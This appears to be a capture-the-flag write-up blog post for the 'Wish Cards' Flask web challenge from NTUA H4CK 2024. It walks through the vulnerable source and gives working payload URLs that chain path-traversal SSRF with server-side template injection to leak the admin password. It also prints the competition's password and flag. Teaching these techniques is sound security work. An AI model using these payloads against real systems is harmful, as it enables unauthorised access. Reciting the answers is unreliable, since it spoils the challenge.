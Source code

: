 ```yaml
---
layout: post
title: "Wish Cards"
description: from NTUA H4CK 2024
# img: assets/img/12.jpg
date: 2024-12-20 10:14:00-0000
category: web
related_posts: false
toc:
  sidebar: left
---
```


***
You can download all challenge files from [here](https://github.com/Thread-in-the-Needle/NTUAH4CK-3.0/tree/main/web/wish-cards/src) and run the application locally.

***
## Basic Functionality
- The challenge involves a `Flask` web app.
- The app allows users to choose a picture as a template and generates a Christmas card with a random wish sourced from `data.py`.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards1.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards2.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- Additionally, there's an option to create a <u>custom card</u> with a personalized message, but this feature is **restricted to localhost requests only**.
<div class="row mt-3">
    <div class="col-10 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards3.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- The following code enforces this restriction:

```python
def local(f):
    @wraps(f)
    def check(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return render_template('error.html', error= 'Sorry, this page is not available for the public 🥲')
        return f(*args, **kwargs)
    return check
```

## How to get the flag
- Upon reviewing the code, I discovered that the flag can be obtained by sending a request to `/admin-card`. However, two conditions must be met:
  - We need the admin password
  - We must bypass the same localhost restriction as the custom card functionality.

```python
try:    secret_wish = open('flag.txt','r').read().strip()
except: secret_wish='NH4CK{secrettttt}'

@app.route('/admin-card')
@local
def admin():
    passw = request.args.get('pass', '')
    if passw != ADMINPASS:
        return render_template('error.html', error= 'Urm, wrong password ❌')
    secret_card = make_card('colors.png', wish= f'Merry Xmas, don\'t share my secret: {secret_wish}')
    return send_file(io.BytesIO(secret_card), mimetype= 'image/png', as_attachment= True, download_name= 'flag.png')
```

## Getting the admin password
- I noticed that the admin pass is loaded in a global variable in `util.py`.

```python
try:    ADMINPASS = open('adminpass.txt').read().strip()
except: ADMINPASS = 'adminpass'
```

- I also noticed that when a custom card is generated, the custom wish is is directly rendered into the template **without any sanitization**.

{% raw %}
```python
def generate_card_html(b64_image, wish):
    card_html = f'''
    <html>
    <head>
        <style>
            .card {{
                width: 800px;
                height: 600px;
                background-image: url(data:image/png;base64,{b64_image});
                background-size: cover;
                display: flex;
                align-items: center;
                justify-content: center;
                color: white;
                font-size: 20px;
                text-align: center;
                padding: 10px;
                box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);
                border-radius: 10px;
            }}
        </style>
    </head>
    <body>
        <div class="card">
            {wish}
        </div>
    </body>
    </html>
    '''
    return render_template_string(card_html, **globals())
```
{% endraw %}

- This suggested an [SSTI](https://portswigger.net/web-security/server-side-template-injection) **vulnerability** . By exploiting it, I could potentially extract the admin password using a payload like {% raw %}`{{ADMINPASS}}`{% endraw %}. The only problem was the localhost restriction.
- I assumed that there has to be an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability as well, that would allow us to **force the server to make requests on behalf of us**.

## SSRF vulnerability
- The `make_card` function looked very promising because:
  - The server **fetches** images by making **HTTP requests to itself**.
  - it concatenates a **user-controlled input** into the url string.

```python
def make_card(img: str, wish= ''):
    if not img or not img.endswith('.png'):
        return None
    if any([c in wish for c in '<>%_&"\\()']): # these may crash something
        return None
    
    if not wish:
        wish = get_wish()
    
    img_b64 = img_from_url(f'http://127.0.0.1:1337/static/images/{img}')
    if not img_b64:
        return None
    card_html = generate_card_html(img_b64,wish)
    as_pic = imgkit.from_string(card_html, False, options= {'format': 'png', 'quiet': '', 'crop-h': '1000', 'crop-w': '800'})
    return as_pic
```

- Firstly I checked if I could control the server's request URL with **path traversal**. I tried:
```
http://localhost:1337/cards?image=../../static/images/green.png
```
- The response was a **normal card** with the requested background **without any errors**. So, I confirmed that indeed I can control it.

- Next, I tried creating a **custom card** to see if I could **bypass** the localhost restriction:
```
http://localhost:1337/cards?image=../../custom-cards?wish=MyCustomWish%26image=green.png
```
- Notice that the `image` parameter of the SSRF request **should be second**, because the server checks if it ends with `.png`.
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards4.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- And yes, my custom wish was **rendered successfully**. A random wish was also included, as the initial request was for a regular card, while using the rendered custom card as background.

- To **confirm the SSTI** vulnerability, I used the following request that rendered number `49`.
```
http://localhost:1337/cards?image=../../custom-cards?wish={% raw %}{{7*7}}{% endraw %}%26image=green.png
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards5.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- And finally used {% raw %}`{{ADMINPASS}}`{% endraw %} to get the admin pass.
```
http://localhost:1337/cards?image=../../custom-cards?wish={% raw %}{{ADMINPASS}}{% endraw %}%26image=green.png
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards7.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

## Final payload to get the flag
- With the admin password in hand and a bypass for the localhost restriction, I could issue a request to the `/admin-card` endpoint and retrieve the flag:
```
http://localhost:1337/cards?image=../../admin-card?pass=adminpass%26fake=.png
```
- Again, the `image` parameter must end with `.png`, so I appended an arbitrary parameter.
- During the competition, the live server’s admin password was `GOD_INTERN!` so the final payload was:
```
/cards?image=../../admin-card?pass=GOD_INTERN!%26fake=.png
```
- And the real flag was:
```
NH4CK{y37.4n07h3r.w15h.c4rd}
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards8.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>